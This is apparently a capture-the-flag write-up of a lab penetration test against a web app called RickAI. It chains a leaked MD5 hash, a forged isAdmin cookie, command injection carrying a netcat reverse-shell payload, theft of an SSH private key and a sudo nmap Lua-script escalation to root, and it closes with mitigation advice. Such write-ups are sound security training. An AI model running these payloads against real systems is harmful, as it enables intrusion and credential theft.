










# CTF-Sentyabr: Full Compromise of the RickAI Web Application

**Category:** Web Exploitation / Linux Privilege Escalation | **Difficulty:** Medium | **Date:** February 2026

## Overview

| | |
|---|---|
| **Target IP** | 10.0.2.11 (CTF-Sentyabr) |
| **Attacker IP** | 10.0.2.9 (Kali Linux) |
| **Web Application** | RickAI — Apache 2.4.58 (Ubuntu) |
| **SSH** | OpenSSH 9.6p1 Ubuntu |

This was a black-box penetration test against a lab target running a web application called RickAI. Starting from zero access on the local network, the assessment chained together web enumeration, an unauthenticated credential leak, a client-side authorization bypass, OS command injection, SSH key theft, and a sudo misconfiguration to reach a full root shell.

## Tools Used

`ifconfig` • `nmap` • `gobuster` • Browser DevTools • `netcat` • `ssh` • `nmap --script` (privilege escalation)

## Methodology

### 1. Network Reconnaissance

Before scanning, the attacking machine's network interface was confirmed with `ifconfig` (eth0 → 10.0.2.9), verifying it was on the same subnet as the target.


*ifconfig — attacker IP confirmed as 10.0.2.9 on eth0*

An `nmap` scan of the subnet found host `10.0.2.11` with two open ports: **22** (SSH — OpenSSH 9.6p1) and **80** (HTTP — Apache 2.4.58). The HTTP title showed "Directory listing for /", suggesting an exposed web root.


*nmap scan — ports 22 and 80 open on 10.0.2.11*

### 2. Web Directory Enumeration

`gobuster` was run against the web server with the `big.txt` wordlist and found several notable paths:

| Path | Result |
|---|---|
| `/login` | Login page (200) |
| `/dashboard` | Redirects to `/login.php` (302) |
| `/admin` | Admin panel (403 without auth) |
| `/users` | User list endpoint (301 → `/users/`) |
| `/server-status` | Apache status page (403) |


*gobuster results — /users/ and /login discovered*

The `/users/` endpoint stood out: a 301 redirect rather than a 403 suggested accessible content without authentication.

### 3. Credential Discovery — Unauthenticated `/users/` Endpoint

Navigating to `http://10.0.2.11/users/` returned a JSON response containing usernames and MD5 password hashes, with no authentication required:

```json
{ "username": "admin", "hash": "212334ad2f297a57a5a743894a0e4a801fc3" }
{ "username": "guest_user", "hash": "827ccb0eea8a706c4c34a16891f84e7b" }
```


*/users/ endpoint exposing admin and guest_user hashes*

The hash `827ccb0eea8a706c4c34a16891f84e7b` cracked instantly via a rainbow table lookup, since MD5 has no salting and common passwords are precomputed. This gave working credentials for the login page.

### 4. Authentication & Cookie Manipulation

The cracked `guest_user` credentials logged in successfully at `/login`, redirecting to `/dashboard.php`. Inspecting cookies in the browser's DevTools revealed:

- `user = guest_user`
- `isAdmin = false`

The `isAdmin` cookie was entirely client-controlled. Changing its value from `false` to `true` directly in the browser granted full admin access — the server never re-validated admin status itself.


*DevTools showing isAdmin=false cookie — changed to true for admin access*

### 5. Command Injection → Reverse Shell

The admin panel included a "Network Terminal" feature intended for running `ping` commands. User input was passed directly to the OS shell with no sanitization, allowing command chaining via `;`.

Payload submitted to the terminal field:

```bash
ping 10.0.2.11; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.9 4444 >/tmp/f
```


*Admin terminal — command injection payload entered before execution*

This creates a named pipe (FIFO) and redirects shell I/O through it back to a netcat listener on the attacker machine, started beforehand with:

```bash
nc -lvnp 4444
```

### 6. Post-Exploitation & SSH Key Theft

The reverse shell connected back as `www-data`. After spawning a full TTY with Python, the filesystem was explored and a single user, `millisec`, was found under `/home`.


*Reverse shell as www-data — /home/millisec discovered*

The `millisec` user's `~/.ssh` directory was world-readable (`drwxr-xr-x`), and inside it the private key `id_rsa` had overly permissive mode `-rw-r--r--`, meaning any local user — including `www-data` — could read it directly:

```bash
cat /home/millisec/.ssh/id_rsa
```


*id_rsa private key read as www-data due to insecure file permissions*

The key was copied to the attacker machine, given correct permissions, and used to SSH in as `millisec` with no password:

```bash
chmod 700 key
ssh millisec@10.0.2.11 -i key
```


*Successful SSH login as millisec using the stolen private key*

### 7. Privilege Escalation — `sudo nmap`

`sudo -l` showed that `millisec` could run `/usr/bin/nmap` as root with `NOPASSWD`. Modern `nmap` supports a `--script` flag that runs Lua scripts, and Lua's `os.execute()` can run arbitrary system commands. A malicious script was written and loaded:

```bash
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```

`nmap` executed the script as root, dropping straight into a root shell (`uid=0, gid=0, groups=0`) — full system compromise.


*sudo nmap --script exploit — root shell obtained (uid=0)*

## Key Takeaways

- A single unauthenticated API endpoint leaking password hashes was the root cause that made every later step possible.
- Client-side trust (the `isAdmin` cookie) is never a substitute for server-side authorization checks.
- Any feature that builds a shell command from user input is a command injection risk unless input is strictly validated or escaped.
- File permissions matter even after a foothold is lost — a world-readable SSH key turns a low-privilege shell into a different user's full access.
- `sudo` entries should be audited for binaries (like `nmap`, `vim`, `less`, `find`) that have known privilege-escalation primitives via GTFOBins.

## Mitigation and Prevention

**Securing the `/users/` endpoint**
Remove or authenticate this API. Password hashes should never be exposed, and MD5 should be replaced with bcrypt (cost ≥ 12) or Argon2id for all stored passwords.

**Server-side authorization**
Remove the client-readable `isAdmin` cookie. Admin status must be checked exclusively on the server using signed session tokens (e.g., server-side sessions with HMAC-protected values). Never trust client-supplied values for privilege decisions.

**Preventing command injection**
Sanitize all user input passed to OS commands. Use allowlists for valid IPs/hostnames, prefer parameterized APIs (e.g., `escapeshellarg()`), or replace the terminal feature with a dedicated, sandboxed service.

**File permission hardening**
- SSH private keys: `chmod 600 ~/.ssh/id_rsa`
- SSH directory: `chmod 700 ~/.ssh`
- Periodically audit home directories for world-readable sensitive files.

**Restricting sudo**
Remove `NOPASSWD` from any tool capable of executing arbitrary code. If `nmap` is required for diagnostics, restrict it to safe flags via a hardened wrapper script, and regularly audit `/etc/sudoers` against the principle of least privilege.

**Additional recommendations**
- Deploy a Web Application Firewall (WAF) to catch injection patterns.
- Enforce HSTS, Content-Security-Policy, and X-Frame-Options headers.
- Rate-limit or `fail2ban` the login endpoint to slow brute-force attempts.
- Schedule recurring internal penetration tests and vulnerability scans.

## Conclusion

No single vulnerability in this chain was advanced on its own — the full compromise resulted from several basic misconfigurations (an open data endpoint, a client-trusted cookie, unsanitized shell input, loose file permissions, and an overly permissive sudo rule) compounding one another into a complete root takeover. This is a common real-world pattern: defense in depth at any one of these five points would have stopped the chain.
